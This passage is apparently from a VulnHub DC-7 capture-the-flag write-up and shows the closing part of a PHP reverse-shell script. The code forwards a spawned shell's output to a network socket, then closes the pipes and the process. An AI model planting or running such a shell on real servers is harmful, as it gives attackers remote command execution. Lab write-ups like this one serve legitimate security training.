 ```php
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/15.png)
